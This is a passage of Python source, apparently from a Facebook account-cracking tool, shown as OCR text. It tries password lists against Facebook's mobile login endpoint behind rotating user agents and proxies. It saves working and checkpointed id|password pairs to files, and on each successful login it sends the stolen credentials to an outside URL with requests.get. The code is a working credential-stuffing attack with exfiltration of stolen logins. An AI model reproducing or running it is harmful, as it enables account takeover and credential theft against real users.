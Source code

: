 			po = ses.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)

			if "checkpoint" in po.cookies.get_dict().keys():

				print(f'\r{P}{K} [{time.strftime("%H:%M")}-CP] {idf} │ {pw} {P}')

				open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

				akun.append(idf+'|'+pw)

				cp+=1

				break

			elif "c_user" in ses.cookies.get_dict().keys():

				ok+=1

				coki=po.cookies.get_dict()

				kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

				print(f'\r{P}{H} [{time.strftime("%H:%M")}-OK] {idf} │ {pw} {P}')

				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				requests.get(""+tid+"&text="+uname+"\n[ "+idf+' | '+pw+ " ]")

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

	loop+=1

#------------------[ METHODE-MBASIC-2 ]-------------------#

def crackfree(idf,pwv):

	global loop,ok,cp

	sys.stdout.write(f"\r {P}[BIJAY]{P} {P}{loop}{P}/{P}{len(id)}{P} OK{P}[{H}{ok}{P}] [{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),

	sys.stdout.flush()

	ua = random.choice(ugen)

	ua2 = random.choice(ugen2)

	ses = requests.Session()

	for pw in pwv:

		try:

			ses.headers.update({"Host":"p.facebook.com",'cache-control': 'max-age=0','sec-ch-ua-mobile': '?1',"upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-dest":"empty","sec-fetch-dest":"document","referer":"https://p.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"})
